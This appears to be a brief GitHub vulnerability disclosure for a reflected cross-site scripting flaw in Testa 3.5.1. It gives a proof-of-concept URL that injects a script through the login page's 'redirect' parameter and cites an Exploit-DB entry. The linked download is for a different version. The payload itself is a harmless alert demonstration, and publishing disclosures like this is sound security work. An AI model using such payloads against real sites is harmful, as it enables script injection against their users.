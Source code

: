 ## Testa-3.5.1 (Cross site scripting)
```
=========================================================================
#
# Testa 3.5.1 Online Test Management System (Cross Site Scripting)
# Version: 3.5.1
# Tested on Linux/Windows
#
=========================================================================
#
# POC (Piye om carane)
# https://localhost/login.php?redirect=[Payloads]
# Payloads: %22%3E%3Cscript%3Ealert(%22Ultraamooz.com%22)%3C/script%3E
#
=========================================================================
```
## Software & Reference
###### [https://www.exploit-db.com/exploits/51023](https://www.exploit-db.com/exploits/51023)
###### [https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip](https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip)
###### [https://www.apachefriends.org/download.html](https://www.apachefriends.org/download.html)

